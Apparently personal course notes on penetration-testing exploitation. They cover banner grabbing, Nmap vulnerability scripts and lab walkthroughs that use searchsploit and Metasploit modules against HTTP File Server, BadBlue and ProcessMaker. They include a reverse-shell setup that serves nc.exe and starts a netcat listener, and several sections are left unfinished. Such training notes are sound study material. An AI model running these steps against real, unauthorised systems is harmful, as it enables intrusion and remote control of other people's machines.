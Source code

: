 # Exploitation
- What is exploitation: consists of techniques and tools used by penetration testers/adveseries to gain an initial foothold on a target system or network
- Succesful Exploitation Will heavily depend on the nature and quality of *information gathering* and *service enumeration* performed on the target
## Penetration Testing Phases
1. Information Gathering
2. Enumeration
3. Exploitation
4. Post Exploitation
   1. Privelege Escalation
   2. Maintain Persistant Access
   3. Clearing Tracks
### Banner grabbing and SSH Recon
- Banner grabbing is an information gathering technique used to enumerate information regarding the target operationg system as well as services that are running on its open ports
- search service version with metasploit: `searchsploit service version` look for version
  
1. cool nmap banner grapping script: `ls -al /usr/share/nmap/scripts/ | grep banner` -> `nmap -sV --script=banner 10.10.x.x` 
2. Netcat: `nc 10.10.x.x 22` <-- port also

### Nmap scripting engine- vulnscanning

- `ls -al /usr/share/nmap/scripts/ | grep search_word`
- Shellshock: `nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/scriptypufound.cgi" 10.10.x.x`

### Search for public Exploits
- Exploit db: vsftpd 2.3.4
- Rapid7

### Lab: HTTP File Server
1. scan: nmap
2. searchsploit: `searchsploit HTTP File Server 2.3`
3. copy to desktop: `searchsploit -m 39161`
4. vim(change exploit, IP, PORT): `vim 39161`
5. start pyhton server: `python -m SimpleHTTPServer 80`
6.  copy netcat:  `cp /usr/share/windows-resources/binaries/nc.exe .`
7. netcat: `nc -nvlp 443`
8. lunch script: `python39161.py 10.10.x.x 80`
9. get flag

### Cross compiling
  ...


### Netcat
- Netcat be used to: Banner grabbing, Port Scanning, Transferring Files, Bind/Reverse shells

### Reverse Shells
- revshells.com
- 
### Lab: Windows: File and Keylogging
1. `nmap -sV 10.10.x.x`
2. `searchsploit badblue 2.7`
3. `msfconsole` -> `use exploit/windows/http/badblue_passthru` --> `set RHOSTS 10.0.0.71` --> run
4. `shell`
5. search flag

### MSF Exploitation
![alt text](/assets/penetration_testing_with_MSF.png)

### Lab: Windows - Workflow platform
1. scan
2. check credentials online for proccess maker
3. `searchsploit ProcessMaker` 
4. launch msfconsole
5. create workspace: workspace -a nameofworkspace
6. `search processmaker`
7. use 0
8. set RHOSTS 10.10.x.x -> run
9. get flag

### Lab: Windows Black Box Penetration test: Exploitation
**Host Discovery**
   1. target `cat /etc/hosts`
   2. ping target
   3. and create file info
**Port Scanning & Enumeration**
*TCP*
   1. `nmap -sV 10.10.x.x`
   2. `nmap -T4 -PA -sV -sC -p 1-10000 10.10.x.x -oX nmap_10k`
   3. `service postgresql start && msfconsole`
   4. in msf: `workspace -a Win258`
   5. import file output: `db_import root/Desktop/wind2k8/nmap_10k`
   6. commands: `hosts`, `services`, set os_name etc -> `search smb_version` --> use 0 --> set RHOSTS -> run
*UDP SCAN*
- `nmap -sU -sV 10.10.x.x`
**Vulnerability detection/scanning**
*Targeting Microsoft IIS FTP*
  1. s
**Exploitation**
*Manual*
*Automated*
**Post Exploitation**
*Privelege Escalation*
*Persistence*
*Dumping Hashes*